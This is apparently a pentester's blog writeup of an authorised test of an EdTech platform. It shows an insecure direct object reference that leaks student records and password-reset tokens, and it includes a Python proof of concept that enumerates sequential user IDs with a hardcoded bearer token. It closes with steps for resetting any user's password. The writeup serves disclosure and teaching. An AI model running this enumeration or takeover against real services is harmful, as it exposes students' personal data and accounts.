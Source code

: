 ```yaml
---
layout: post
published: true
hidden: false
title: Safeguarding 500k Academic Futures - Detailed Writeup
date: 2024-06-12 00:00:00 +0000
category: blog
tags: [edtech, edsec, writeups, account-takeover]
---
```

![EdSec: Safeguarding 500k Academic Futures](/assets/images/EdSec-Safeguarding-500k-Academic-Futures.png)

This is my first blog post, and because of that it marks a new beginning for me. I have been around in cybersecurity for probably half of my age as I stepped into it when I was maybe 10 but what I clearly remember is that my first milestone or achievement that I had was when I was 12 - That is when I got into Microsoft's Hall of Fame. Since that time, I have been actively learning and even working with few companies and even startups which I never wrote about or maybe never even shared on my LinkedIn too and I really feel sorry for that. So here's my attempt to make up for it. 

I had to perform a pentest of an EdTech platform consisting of a huge userbase, around 500k+ students enrolled on the platform at the time of the pentest. I was reached out by their CTO initiating a collaboration for the safety of their users and the company's digital assets. 

The following writeup is from one of the interesting findings that were a part of the final report and was patched keeping their CTO in loop. He was genuinely very concerned and involved with every step within the process, and one of the highly talented individuals I've come across, sharing with me how he left his dream job and stepped into entrepreneurship. 

Starting with the writeup now, I was more interested into understanding the application's business workflow first and dig into each of the components that I discover. Enumeration definitely has to be the priority, I did decide to spend a decent amount of time on it. 

Starting with the enumeration, I started discovering numerous API endpoints and different calls going around. Silently logging to analyze later. 

The first thing to notice was that, each of the API call was accompanied by an **_Authorization_** header that consisted of a token to validate the API calls. Looks pretty good, that's how it should be right. My first thought was to remove the **_Authorization_** header and see if the API responds and it turns out that the API discards the request. Pretty good here. 

While the API endpoints were being discovered, I took some time to browse through the application and noticed an option to create a "**_Guest Account_**", can't ignore such a great lead. Immediately created a guest account, grabbed its Authorization token but wait a second!? What if I log-out. Ideally, logging out should make the token unusable, more of a garbage after the sessions ends. In this case, the token was still usable and valid. Got the missing piece right? Now we have a token that we can use countless times for our API calls. 

Till now, we have a list of API endpoints to test and a valid token that can be used for authorized API requests.

Going through the list of discovered endpoints, I came across an interesting one: "**_/api/v1/users/getUserData?id=[any User ID]_**. Even more interesting was the JSON object that I received in the response, a little snippet for you:

```json
{
	"id": some number,
    "cnic": "[redacted]",
    "provider": "email",
    "uid": "[redacted]@nbs.nust.edu.pk",
    "uid_phone": [redacted],
    "reset_password_token": null,
    "reset_password_sent_at": null,
    "remember_created_at": null,
    "sign_in_count": 9,
    "current_sign_in_at": null,
    "last_sign_in_at": null,
    "current_sign_in_ip": null,
    "last_sign_in_ip": null,
    "confirmation_token": "ijsnfwtn4fd",
}
```

There's just so much more juicy information right there right? Indeed. The very next thing I tried and it turned out right was that the "**_id_**" for each user or student was in incremental order, a simple block of code and information extraction is automated. I quickly wrote a little Python code to automate this, developing a proof of concept for the team. 

```python
import requests
import json
file = open("retrieved-data.json", "w")
for x in range(223000, 223999):
    print('[+] Retrieving Data for UserID: %s' %(str(x)))
    url = "https://[redacted]/api/v1/users/getUserData?id=%s" % (str(x))
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "application/json, text/plain, */*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "X-Requested-With": "XMLHttpRequest",
        "Authorization": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOjI1MzA2NiwiaWF0IjoxNjI5MTIxOTUwfQ.Q8k_QCsJsb0v8qsh4AYk4ZxV5siLNTUOty9ilQYWhg4",
        "Uid": "253066",
        "Sec-Fetch-Dest": "empty",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Site": "same-origin",
        "Te": "trailers"
    }
    req = requests.get(url, headers=headers)
    if len(req.content) != 0:
        file.write(json.dumps(json.loads(req.content), indent=4))
        file.write('\n')
file.close()
```

But there's more to it? The juicy information returned by the API really had me wondering what attack scenario could do the worst for them.

You might have noticed it earlier, "**_reset_password_token_**" really had me down to spend more time on it. 

At this point, we do have enough findings to reset any user's password. The following steps help us achieve that: 
1. Navigate to "Forgot Password" option, enter target's email address.
2. A password reset token is generated, along with a link that is emailed to the target. 
3. As per our findings, we can easily fetch the password reset token that was generated for the target.
4. Navigate to the following link to finally reset the password for the target:
> https://[redacted]/resetPassword/[target email]/[password reset token]

That's it for this writeup, the amount of findings I have had for EdTech platforms I believe it's time we start talking about "**_EdSec_**"(maybe?). 

fin.